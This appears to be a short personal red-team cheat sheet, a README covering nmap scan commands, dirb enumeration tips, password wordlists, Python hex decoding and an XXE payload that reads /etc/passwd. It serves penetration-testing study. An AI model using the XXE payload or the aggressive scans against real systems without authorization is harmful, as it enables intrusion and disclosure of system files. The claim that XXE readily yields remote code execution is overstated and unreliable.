 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt``` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

# Nmap
### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```
### Slow (quickest?) stealth SYN scan, all ports, NSE scripts, version detection.
```sudo nmap -n -p- -A -v -O -T5 $ip```

# Webapps

Don't forget to enumerate everything. Even the things you haven't thought of.

### dirb
* Check for cgi-bin/
* Search for different file extensions (is there a list of common file ext for brute forcing?)


# Wordlists
* [SecList - Really good wordlists](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

# Python

### Dealing with hex encoded strings.

#### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

#### Print that in ascii
```print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

